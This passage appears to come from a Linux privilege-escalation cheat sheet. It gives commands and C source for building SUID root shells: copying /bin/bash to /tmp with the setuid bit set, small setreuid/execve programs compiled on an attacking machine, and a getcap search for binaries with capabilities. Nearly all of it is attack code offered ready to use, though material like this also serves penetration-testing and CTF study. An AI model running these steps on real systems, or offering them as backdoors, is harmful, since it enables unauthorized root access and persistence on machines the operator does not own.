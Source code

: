 We can copy the bash file to temp and give it SUID permissions.

```text
cp /bin/bash /tmp/bash
chmod u+s /tmp/bash

/tmp/bash -p
```

### Creating a SUID file \(c\)

```text
#include <unistd.h>
int main()
{
    setreuid(0,0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

### Creating a SUID shell \(C\)

We can write the following C code in order to obtain a bash shell:

```text
#include <stdio.h>
#include <unistd.h>

int main (void) {
    char *argv[] = { "/bin/bash", "-p", NULL };
    execve(argv[0], argv, NULL);
}
```

We just need to compile and give SUID permissions from root in our attacking machine.

```text
gcc -m32 shell.c -o shell
root@kali $ chmod +s shell
```

Finally we need to transfer the file with the command execution.

```text
/tmp/shell -p
```

## Capabilities

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

Search files with capabilities:

```text
getcap -r / 2>/dev/null
```
